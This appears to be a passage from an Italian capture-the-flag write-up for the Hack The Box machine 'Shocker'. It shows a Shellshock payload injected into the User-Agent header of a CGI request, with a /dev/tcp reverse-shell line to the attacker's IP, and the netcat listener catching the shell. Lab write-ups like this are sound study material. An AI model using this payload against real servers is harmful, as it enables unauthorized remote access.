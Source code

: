 ![](../zzz_rev/attachments/shocker1.png)

```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Modificamo l'User-Agent con la seguente stringa:

```burp
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.53/4444 0>&1
```

Eseguiamo ed otteniamo una shell

```bash
┌──(root㉿kali)-[/home/kali/htb/shocker]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.56] 57280
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```
